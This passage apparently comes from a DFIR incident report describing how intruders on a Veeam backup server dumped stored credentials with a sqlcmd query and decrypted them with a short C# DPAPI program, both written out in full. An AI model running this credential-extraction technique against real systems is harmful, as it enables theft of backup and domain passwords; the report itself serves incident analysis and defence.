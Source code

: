 
All the activity was done using RDP on the server with backups.


1. Dump the credentials using sqlcmd.exe to base64 passwords.



```
"C:\Program Files\Microsoft SQL Server\Client SDK\ODBC\130\Tools\Binn\sqlcmd.exe"  -S localhost,51341 -E -y0 -Q "SELECT TOP (1000) [id],[user\_name],[password],[usn],[description],[visible],[change\_time\_utc]FROM [VeeamBackup].[dbo].[Credentials];"

```

![](https://thedfirreport.com/wp-content/uploads/2021/12/3211.png)


2. Via RDP and notepad, they created a new file containing the code for the decryption routine.



```
"C:\Windows\system32\NOTEPAD.EXE" C:\Windows\Microsoft.NET\Framework\<version#>\veeam1.cs.txt
```

Content of **veeam1.cs.txt**



```
using System;
using System.Collections.Generic;
using System.Security.Cryptography;
using System.Text;

namespace Main
{
internal static class Program
   {
   private static void Decrypt(string b,string a){
      if (string.IsNullOrEmpty(a))
      {
         return;
      }
      byte[] encryptedData = Convert.FromBase64String(a);
      Console.WriteLine(b+':'+Encoding.UTF8.GetString(ProtectedData.Unprotect(encryptedData, null, DataProtectionScope.LocalMachine)));
      return;
   }
   private static void Main(string[] args)
 {
         Decrypt("VATA","<BASE64 ENCODED PASSWORD HASH>");
      }
 }
}

```
